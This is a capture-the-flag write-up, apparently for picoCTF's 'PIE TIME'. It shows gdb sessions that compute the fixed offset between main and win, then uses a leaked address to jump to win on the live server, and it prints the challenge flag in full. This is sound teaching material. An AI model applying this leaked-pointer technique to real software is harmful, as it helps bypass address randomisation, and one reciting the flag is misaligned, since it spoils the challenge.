

import Toggle from '@components/Toggle.astro';

> Goal: the program prints the address of its own `main` function, then jumps to whatever address you type. Turn that leak into the address of `win`, a second function inside the same program that opens the flag file.

## Approach

The challenge hands over the source and the compiled binary. `vuln.c` shows the whole shape of the problem: `main` prints its own address, prompts for an address to jump to, and a separate `win` opens `flag.txt`. Nothing is overflowed. The only work is measuring the distance between the two functions, and that distance is fixed when the binary is linked.

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/PIE_TIME]
└─> wget "https://challenge-files.picoctf.net/c_rescued_float/bdb6bf774358f0bb2ad5aca6142f72287773518e274f1dd724cde2e49a44aaa4/vuln.c"
┌──(Idan@Kali)-[~/PIE_TIME]
└─> wget "https://challenge-files.picoctf.net/c_rescued_float/bdb6bf774358f0bb2ad5aca6142f72287773518e274f1dd724cde2e49a44aaa4/vuln"
┌──(Idan@Kali)-[~/PIE_TIME]
└─> chmod +x vuln
```

Open it in GNU Debugger and run it before disassembling anything, so the disassembly reports the same mapped addresses the program prints rather than the unrelocated offsets a position independent binary carries before it starts. Any address will do to get the process running, and a junk one is quicker than a real one.

```bash frame="code" title="gdb" {8,11}
(gdb) r
Address of main: 0x55555555533d
Enter the address to jump to, ex => 0x12345: 1
Your input: 1

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000001 in ?? ()
(gdb) disassemble main
Dump of assembler code for function main:
   0x000055555555533d <+0>:     endbr64
(gdb) disassemble win
Dump of assembler code for function win:
   0x00005555555552a7 <+0>:     endbr64
```

<Toggle label="Full disassembly of both functions <code>gdb</code>">

```bash frame="code" title="gdb"
(gdb) disassemble main
Dump of assembler code for function main:
   0x000055555555533d <+0>:     endbr64
   0x0000555555555341 <+4>:     push   %rbp
   0x0000555555555342 <+5>:     mov    %rsp,%rbp
   0x0000555555555345 <+8>:     sub    $0x20,%rsp
   0x0000555555555349 <+12>:    mov    %fs:0x28,%rax
   0x0000555555555352 <+21>:    mov    %rax,-0x8(%rbp)
   0x0000555555555356 <+25>:    xor    %eax,%eax
   0x0000555555555358 <+27>:    lea    -0xd6(%rip),%rsi        # 0x555555555289 <segfault_handler>
   0x000055555555535f <+34>:    mov    $0xb,%edi
   0x0000555555555364 <+39>:    call   0x555555555150 <signal@plt>
   0x0000555555555369 <+44>:    mov    0x2ca0(%rip),%rax        # 0x555555558010 <stdout@@GLIBC_2.2.5>
   0x0000555555555370 <+51>:    mov    $0x0,%ecx
   0x0000555555555375 <+56>:    mov    $0x2,%edx
   0x000055555555537a <+61>:    mov    $0x0,%esi
   0x000055555555537f <+66>:    mov    %rax,%rdi
   0x0000555555555382 <+69>:    call   0x555555555160 <setvbuf@plt>
   0x0000555555555387 <+74>:    lea    -0x51(%rip),%rsi        # 0x55555555533d <main>
   0x000055555555538e <+81>:    lea    0xcbf(%rip),%rdi        # 0x555555556054
   0x0000555555555395 <+88>:    mov    $0x0,%eax
   0x000055555555539a <+93>:    call   0x555555555130 <printf@plt>
   0x000055555555539f <+98>:    lea    0xcca(%rip),%rdi        # 0x555555556070
   0x00005555555553a6 <+105>:   mov    $0x0,%eax
   0x00005555555553ab <+110>:   call   0x555555555130 <printf@plt>
   0x00005555555553b0 <+115>:   lea    -0x18(%rbp),%rax
   0x00005555555553b4 <+119>:   mov    %rax,%rsi
   0x00005555555553b7 <+122>:   lea    0xce0(%rip),%rdi        # 0x55555555609e
   0x00005555555553be <+129>:   mov    $0x0,%eax
   0x00005555555553c3 <+134>:   call   0x555555555180 <__isoc99_scanf@plt>
   0x00005555555553c8 <+139>:   mov    -0x18(%rbp),%rax
   0x00005555555553cc <+143>:   mov    %rax,%rsi
   0x00005555555553cf <+146>:   lea    0xccc(%rip),%rdi        # 0x5555555560a2
   0x00005555555553d6 <+153>:   mov    $0x0,%eax
--Type <RET> for more, q to quit, c to continue without paging--q
Quit
(gdb) disassemble win
Dump of assembler code for function win:
   0x00005555555552a7 <+0>:     endbr64
   0x00005555555552ab <+4>:     push   %rbp
   0x00005555555552ac <+5>:     mov    %rsp,%rbp
   0x00005555555552af <+8>:     sub    $0x10,%rsp
   0x00005555555552b3 <+12>:    lea    0xd74(%rip),%rdi        # 0x55555555602e
   0x00005555555552ba <+19>:    call   0x555555555100 <puts@plt>
   0x00005555555552bf <+24>:    lea    0xd71(%rip),%rsi        # 0x555555556037
   0x00005555555552c6 <+31>:    lea    0xd6c(%rip),%rdi        # 0x555555556039
   0x00005555555552cd <+38>:    call   0x555555555170 <fopen@plt>
   0x00005555555552d2 <+43>:    mov    %rax,-0x8(%rbp)
   0x00005555555552d6 <+47>:    cmpq   $0x0,-0x8(%rbp)
   0x00005555555552db <+52>:    jne    0x5555555552f3 <win+76>
   0x00005555555552dd <+54>:    lea    0xd5e(%rip),%rdi        # 0x555555556042
   0x00005555555552e4 <+61>:    call   0x555555555100 <puts@plt>
   0x00005555555552e9 <+66>:    mov    $0x0,%edi
   0x00005555555552ee <+71>:    call   0x555555555190 <exit@plt>
   0x00005555555552f3 <+76>:    mov    -0x8(%rbp),%rax
   0x00005555555552f7 <+80>:    mov    %rax,%rdi
   0x00005555555552fa <+83>:    call   0x555555555140 <fgetc@plt>
   0x00005555555552ff <+88>:    mov    %al,-0x9(%rbp)
   0x0000555555555302 <+91>:    jmp    0x55555555531e <win+119>
   0x0000555555555304 <+93>:    movsbl -0x9(%rbp),%eax
   0x0000555555555308 <+97>:    mov    %eax,%edi
   0x000055555555530a <+99>:    call   0x5555555550f0 <putchar@plt>
   0x000055555555530f <+104>:   mov    -0x8(%rbp),%rax
   0x0000555555555313 <+108>:   mov    %rax,%rdi
   0x0000555555555316 <+111>:   call   0x555555555140 <fgetc@plt>
   0x000055555555531b <+116>:   mov    %al,-0x9(%rbp)
   0x000055555555531e <+119>:   cmpb   $0xff,-0x9(%rbp)
   0x0000555555555322 <+123>:   jne    0x555555555304 <win+93>
   0x0000555555555324 <+125>:   mov    $0xa,%edi
   0x0000555555555329 <+130>:   call   0x5555555550f0 <putchar@plt>
--Type <RET> for more, q to quit, c to continue without paging--
```

</Toggle>

Subtracting the two gives `0x96`, 150 bytes, and a hex calculator does it without leaving the browser.


*The only number worth carrying off this machine. Everything else in the debugger session is local to it.*

### On the live instance

The remote copy prints a completely different address, which is the whole point of the defence and changes nothing. The same `0x96` applies, so `0x62dbf933633d - 0x96` is `0x62dbf93362a7`.

```bash frame="code" title="Bash" {3,4}
┌──(Idan@Kali)-[~/PIE_TIME]
└─> nc rescued-float.picoctf.net 55551
Address of main: 0x62dbf933633d
Enter the address to jump to, ex => 0x12345: 0x62DBF93362A7
Your input: 62dbf93362a7
You won!
<flag>
```

<PasswordReveal term="Flag" password="picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_fec8b8c5}" />

## Why it works

A Position Independent Executable is mapped at a randomised base chosen fresh on every run, but that base is one value added to the whole image, so distances inside it never move. `main` and `win` were placed 150 bytes apart at link time and stay 150 bytes apart wherever the image lands. Printing one address therefore gives away every address, and the jump prompt just cashes it in.

The base is page aligned, which leaves a free check: the low three hex digits never change. `main` ends in `33d` and `win` ends in `2a7` in both the debugger and the live run.
